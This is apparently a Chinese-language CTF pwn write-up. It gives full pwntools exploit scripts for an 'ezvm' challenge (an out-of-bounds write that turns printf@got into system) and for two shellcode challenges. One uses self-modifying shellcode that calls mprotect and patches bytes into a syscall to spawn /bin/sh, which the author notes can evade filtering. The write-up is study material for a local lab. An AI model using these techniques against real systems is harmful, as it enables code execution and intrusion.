


# 

by Maple

## ezvm 简单虚拟机

慢慢来看的话其实很简单，先贴exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

#offset = -0xf980
#7：末字符++
#8：末字符--
#5：负溢出
# printf = 0x606f0
# system = 0x50d70
def sub():
    return p8(0x4)

def push(x):
    return p8(0x1)+p8(x)

def store(x):
    return p8(0x5)+p8(x,signed = True)

def load(x):
    return p8(0x6)+p8(x,signed = True)

def add():
    return p8(0x3)

payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)

p.sendlineafter("length:",str(len(payload)))
p.sendline(payload)
p.interactive()
```

### 源码分析

1先看看ida的逆向，这个直接问ai其实就行

- a1代表的栈：
  - a1+0~127:全局变量数据存储(LOAD/STORE)
  - a1+129~255:操作存储
  - a1+256:栈深度

- 输入`0x1`和`x`:将x压入栈中

- 输入`0x2`：将栈顶的数据弹出
- `0x3`:栈中弹出两个数据，然后将相加得到的数值压入栈顶
- `0x4`:栈中弹出两个数据，然后将相减得到的数值压入栈顶
- `0x5`:输入一个地址，将栈顶的元素弹给指定地址
- `0x6`:输入一个地址，将指定地址的元素压到栈顶
- ......

开始找问题

这里可以注意到v3是`int`型，但是这里偏移的提取是`char`类型，可以写入负数实现越界读写

最大范围是`0x80`，这个在压栈函数里可以看到，所以可以越界写`0x80`长度的地址



那么看一下往上0x80是什么

|  |
| ------------------------------------------------------------ |
| 我们写入的字符串的地址是0xA0,`0xA0-0x80=0x20`，恰好可以写到`printf@got`,这个时候就很好想了，改got表，执行`system(/sh)` |

### exp分析：

```python
printf = 0x606f0
system = 0x50d70
```

这里直接打印出来libc中两者的位置，后面更改做参考

````python
payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
````

1. 将`0xf0-0x70`（最后字节）压入栈顶
2. 加载到`-0x80`偏移处(printf地址)加载出当前的最低字节压栈
3. 执行减法并压栈，即`实际地址-offset`

```python
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
```

这两步同理，改了低二字节和低三字节

```python
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
```

此时虚拟栈的结构里：低三字节，低二字节，最低字节

所以要倒序写入，这样就完成了改写printf的got表地址

```python
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)
```

原本的操作是输出栈中的内容，那么我们把`/sh`写入栈中，就可以执行`system(/sh)`

**OVER**

## shell_for_another_shell

不是特别会，等会了再回来补一下

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

shellcode = """
    xor eax, eax
    add r13, fs:0x0
    lea r15, [rip]
    sub r15, 0x15
    add r13, 0x28c0
    mov r14, r13
    add r14, 0x222200
    lea r14, [r14]
    mov rbp, r14
    mov rsp, r14
    add r13, 0x40d70
    add r13, 0x10000
    xor rax, rax
    mov rdi, r15
    add rdi, 0x200
    xor r15, r15
    call r13
"""
shellcode = asm(shellcode)
payload = shellcode.ljust(0x200-3,b'/')+b'/bin/sh\x00'
p.sendline(payload)
p.interactive()
```

# 自改变shellcode

校赛的`shell_for_shell`打破防了，但学到了一个叫做**自改变shellcode**的shellcode注入方式，理论来说可以实现所有的shellcode免杀，记录一下

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
gdb.attach(p)

#----恢复栈帧------
shellcode = """
	mov rbp, 0x404500
    mov rsp, rbp
    lea r15, [rip+0xe00]
    sub r15, 0xe16
    mov rdi, r15
    mov rsi, 0x1000
    mov rdx, 0x7
    mov rax, 0x401070
    call rax
    mov si, word ptr [r15 + 0x100]
    add si, 0x101
    mov word ptr [r15 + 0x100], si
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
"""
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"

print(payload)
p.send(payload)
p.interactive()
```

这边分段分析一下

## 恢复栈+调用mprotect改权限

```assembly
	mov rbp, 0x404500		;栈底恢复
    mov rsp, rbp			;rbp赋给rsp，恢复栈顶
    lea r15, [rip+0xe00]	;这里如果动调过会发现rip被保留了（其实看ida的汇编码也能看出来），就拿rip做传递栈指针
    sub r15, 0xe16			;额外减0x16，退回最开始的地址（之前总共0x16字节的汇编程序）
    mov rdi, r15			;rdi被传递,这里即addr = rdi
    mov rsi, 0x1000			;len = 0x1000
    mov rdx, 0x7			;prot = 7
    mov rax, 0x401070		;rax = 0x401070(对应mprotecct)
    call rax				;call mprotect指令
```

这里将栈底恢复为`0x404500`(因为动调发现这里有写入权限)，而写中间值是为了方便上下增长


## 压栈构造execve的参数，准备执行shellcode

这里构造了`execve("/bin/sh",["sh",NULL],NULL)`

```assembly
	mov si, word ptr [r15 + 0x100]	;r15的值+0x100，赋给si（rsi，16位模式)
    add si, 0x101					;再将si加上0x101
    mov word ptr [r15 + 0x100], si	;修改后的si存给r15+0x100的内存位置
    /*这里是为了给后面syscall找个确定位置，顺便自加一*/
    push 0x68						;压入"h"
    mov rax, 0x732f2f2f6e69622f		;压入/bin///s到rax中
    push rax						;压入rax中的值
    mov rdi, rsp					;栈顶指针给rdi，作为路径字符串的地址，后面直接写入execve

    push 0x1010101 ^ 0x6873			;异或的值压栈，避免显式空字节
    xor dword ptr [rsp], 0x1010101	;异或解密栈顶4字节，得到'sh\x00'
    xor esi, esi /* 0 */
    push rsi 						;作为字符串的\x00
    push 8							;压入8，后面计算‘sh\x00'字符串地址用
    pop rsi							;将8弹给rsi
    add rsi, rsp					;rsi=8+rsp，指向'sh\x00'
    push rsi 						;压入sh\x00
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve 				;等价于push 0x3b
    pop rax							;弹给rax
```

## 写入syscall

```python
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"
```

这里是题目问题，先随便写一个代码在这里，消除第一字节为`\x00`的影响

写入了`\x90(nop)`指令填充

接下来`\x0e\x04`在第100字节那里了，然后就是`40e+101`返回给rsi，变成了`50f`,也就是`\x0f\x05`(syscall的机器码)

之后又把这个写回去，跟`pop rax`续上，执行完整的shellcode

